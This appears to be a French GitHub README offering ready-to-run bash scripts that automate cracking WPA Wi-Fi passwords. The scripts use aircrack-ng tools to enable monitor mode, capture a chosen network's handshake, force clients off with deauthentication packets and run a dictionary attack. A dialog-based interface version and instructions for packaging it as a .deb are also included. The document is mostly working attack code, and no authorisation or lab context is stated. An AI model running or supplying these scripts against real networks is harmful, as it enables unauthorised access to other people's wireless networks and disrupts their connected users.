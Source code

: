 # Script_bash_crack_wifi

## Script simple

```bash
#!/bin/bash

echo "=== Activation du mode moniteur ==="
sudo airmon-ng check kill
sudo airmon-ng start wlan0

echo ""
echo "=== Scan des réseaux disponibles (Ctrl+C pour stopper) ==="
sleep 2
sudo airodump-ng wlan0mon

echo ""
read -p "Entrez le BSSID de la cible : " bssid
read -p "Entrez le canal (CH) : " channel
read -p "Nom du fichier de capture (sans extension) : " output

echo ""
echo "=== Capture ciblée du handshake ==="
sleep 2
sudo airodump-ng -c $channel --bssid $bssid -w $output wlan0mon &
AIRODUMP_PID=$!

sleep 5
read -p "Appuyez sur Entrée pour envoyer les paquets de désauthentification (Ctrl+C pour annuler)"
sudo aireplay-ng -0 10 -a $bssid wlan0mon

echo ""
read -p "Appuyez sur Entrée pour arrêter la capture"
kill $AIRODUMP_PID

echo ""
read -p "Entrez le chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) : " wordlist

echo ""
echo "=== Lancement du craquage avec Aircrack-ng ==="
sudo aircrack-ng -w $wordlist ${output}-01.cap

echo ""
echo "=== Script terminé. Bonne chance pour le crack ! ==="
```

`Ce qu’il fait :`

* Passe wlan0 en mode moniteur. 
* Lance airodump-ng pour détecter les réseaux.
* Demande le BSSID, canal et nom du fichier de capture.
* Lance la capture ciblée.
* Propose d’envoyer les paquets de désauthentification.
* Puis utilise Aircrack-ng avec le dictionnaire choisi.

## Interface utilisateur en texte (avec dialog)

1. Installation de dialog

```bash
sudo apt install dialog
```

wifi_attack_ui.sh
```bash
#!/bin/bash

# Vérification de dialog
if ! command -v dialog &> /dev/null; then
    echo "dialog n'est pas installé. Lance : sudo apt install dialog"
    exit 1
fi

# Étape 1 : tuer les interférences et passer en moniteur
airmon-ng check kill
airmon-ng start wlan0

# Étape 2 : scan initial
xterm -hold -e "airodump-ng wlan0mon" &
sleep 3
dialog --msgbox "Observe les réseaux dans la fenêtre ouverte.\nNote le BSSID et le canal.\nFerme la fenêtre puis clique OK." 12 50

# Étape 3 : récupération des infos utilisateur
bssid=$(dialog --inputbox "Entrez le BSSID de la cible :" 8 50 3>&1 1>&2 2>&3)
channel=$(dialog --inputbox "Entrez le canal (CH) de la cible :" 8 50 3>&1 1>&2 2>&3)
output=$(dialog --inputbox "Nom du fichier de capture (ex: capture1) :" 8 50 3>&1 1>&2 2>&3)

# Étape 4 : capture ciblée dans un terminal
xterm -hold -e "airodump-ng -c $channel --bssid $bssid -w $output wlan0mon" &
sleep 3
dialog --msgbox "La capture est lancée dans une nouvelle fenêtre.\nClique OK pour envoyer les paquets de désauth." 10 50

# Étape 5 : attaque de désauth
xterm -e "aireplay-ng -0 10 -a $bssid wlan0mon"

# Étape 6 : arrêt de la capture
pkill airodump-ng
sleep 1

# Étape 7 : sélection du fichier dictionnaire
wordlist=$(dialog --inputbox "Chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) :" 8 60 3>&1 1>&2 2>&3)

# Étape 8 : craquage
capfile="${output}-01.cap"
dialog --msgbox "Début du craquage. Ceci peut prendre du temps." 7 50
xterm -hold -e "aircrack-ng -w $wordlist -b $bssid $capfile"

dialog --msgbox "Fin du script. Vérifie si le mot de passe a été trouvé !" 7 50
```
## Étapes pour créer un .deb : `samglish.deb`

1. Crée l’arborescence du paquet
```bash
mkdir -p DEBIAN
mkdir -p usr/local/bin
```
2. Place ton script dans `/usr/local/bin`
```bash
cp samglish.sh /usr/local/bin/samglish
chmod +x /usr/local/bin/samglish
```
 3. Crée le fichier control
```bash
nano DEBIAN/control
```

Et colle ceci dedans :

```vbnet
Package: samglish-wifi
Version: 1.0
Section: utils
Priority: optional
Architecture: all
Maintainer: Beidi Dina Samuel
Description: Script d’attaque WPA avec interface dialog pour Linux.
Depends: bash, dialog, aircrack-ng, xterm
```

4. Génère le .deb

Mettre tout le contenu dans un dossier (samglish)

```bash
dpkg-deb --build samglish
```

On obtient `samglish.deb`

### Pour installer le paquet :
```bash
sudo dpkg -i samglish.deb
```

Et tu l’exécutes avec :

```bash
sudo samglish
```

ou on lance seulement le script en mode administrateur (sudo)
```bash
bash samglish.sh
```

<hr>

Télécharge le fichier .deb et installe le, pour apprendre plus sur le logiciel, Merci.
